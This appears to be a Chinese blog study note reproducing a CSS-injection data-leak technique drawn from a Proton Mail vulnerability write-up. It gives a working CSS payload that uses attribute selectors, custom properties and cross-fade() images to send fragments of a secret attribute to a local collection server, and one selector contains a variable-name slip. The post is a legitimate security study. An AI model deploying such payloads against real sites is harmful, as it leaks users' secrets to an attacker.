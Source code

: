 ```yaml
---
layout: post
title:  css变量+cross-fade leak页面secret
tags: [css,xss]
---
```


在学习Proton Mail 的xss利用时，作者利用css leak页面的一个uuid，本文学习并验证。  
文章中利用了几个技术，将uuid按3位字符拆分，利用css selector来设置变量，最后利用cross-fade组合图片，将请求发出来，然后在服务端拼接。

缺点是css文件较大，因为要将所有的3字符组合全部写在css中。
## css变量
利用css selector，设置变量。  
需要注意：Note that the selector given to the ruleset defines the scope that the custom property can be used in.
## 利用cross-fade()发送请求
```html
<html>
<body>
<div secret="9364538164"></div>
inject css below
<style></style>
</body>
</html>
```
The original syntax is supported in Safari and supported with the -webkit- prefix in Chrome, Opera, and other blink-based browsers.
## 结果
safari可以复现成功，在chrome下需要使用-webkit-cross-fade才可以。
```html
<html>
<body>
<div secret="9364538164">div here</div>
inject css below
<style>
div[secret*="936"]{
--a936 : url("//127.0.0.1:8000/936.png");
}
div[secret*="364"]{
--a364 : url("//127.0.0.1:8000/364.png")
}
div[secret*="646"]{
--a364 : url("//127.0.0.1:8000/646.png")
}
div{
background-image: cross-fade(cross-fade(var(--a936,none) ,   var(--a364,none) , 50%), var(--a646,none)    , 50%);
background-image: -webkit-cross-fade(-webkit-cross-fade(var(--a936,none) ,   var(--a364,none) , 50%), var(--a646,none)    , 50%)
}
</style>
</body>
</html>
```
![image](https://camo.githubusercontent.com/039c797d20732fef79bfb8c75d0d743c383a0dac1156f21d0b5a80b0abab4c94/68747470733a2f2f6d6d62697a2e717069632e636e2f737a5f6d6d62697a5f706e672f615a4f4951473732466a526963793931514271624a7a786c6b7569616331726d414252547055454770717056655257696375696361793064427973637654746d6e6963527472313369635571356c696365656e6269614b665642536366412f3634303f77785f666d743d706e6726777866726f6d3d352677785f6c617a793d312677785f636f3d31)  
网页访问  
![image](https://camo.githubusercontent.com/aee6c2bebb4a87c697952f972686e3aac4ec29947e93c1f5895b303aba919ab4/68747470733a2f2f6d6d62697a2e717069632e636e2f737a5f6d6d62697a5f706e672f615a4f4951473732466a526963793931514271624a7a786c6b7569616331726d4142623961757648386e303656686b52566f37426e3571386f553059706a6271706d61365253705958796b683478674c73794a4c566247412f3634303f77785f666d743d706e6726777866726f6d3d352677785f6c617a793d312677785f636f3d31)  
服务端请求

演示时未将url替换为外部url。
https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/
https://developer.mozilla.org/en-US/docs/Web/CSS/Using_CSS_custom_properties
https://developer.mozilla.org/en-US/docs/Web/CSS/cross-fade

